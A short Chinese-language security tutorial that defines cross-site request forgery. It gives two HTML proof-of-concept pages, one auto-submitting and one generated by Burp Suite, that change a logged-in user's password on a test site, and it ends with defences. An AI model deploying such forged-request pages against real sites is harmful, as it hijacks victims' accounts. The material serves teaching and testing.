 # CSRF漏洞和利用

​		CSRF定义： 跨站请求伪造（英语：Cross-site request forgery），也被称为 one-click attack 或者 session riding，通常缩写为 CSRF ， 是一种挟制用户在当前已登录的Web应用程序上执行非本意的操作的攻击方法。

​		简单地说，是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并执行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去执行。这利用了web中用户身份验证的一个漏洞：简单的身份验证只能保证请求发自某个用户的浏览器，却不能保证请求本身是用户自愿发出的。

## 例子

修改密码

http://www.webtester.com/csrf/csrf01.php?c=main

登录过的网站 访问csrf.html就会触payload 从而修改密码。

```html
<html> 
<body>
	<form name="csrf" action="http://www.webtester.com/csrf/csrf01.php?c=update" method="POST">
		<input type=text name=password value="123456"></input>
		<input type="submit" value="submit" />
	</form>
	<script>
 		document.csrf.submit();
	</script>
</body>
</html>
```

访问http://www.demo.com/post-csrf.html 就会修改密码

## 测试方法

用burpsuite生成csrf payload

```html
<html>
 <!-- CSRF PoC - generated by Burp Suite Professional -->
 <body>
  <script>history.pushState('', '', '/')</script>
  <form action="http://www.webtester.com/csrf/csrf01.php?c=update" method="POST">
   <input type="hidden" name="password" value="a123456" />
   <input type="submit" value="Submit request" />
  </form>
 </body>
</html>
```

## 防御方法

- 加上token 进行认证

- 判断页面来源

- 页面加验证码判断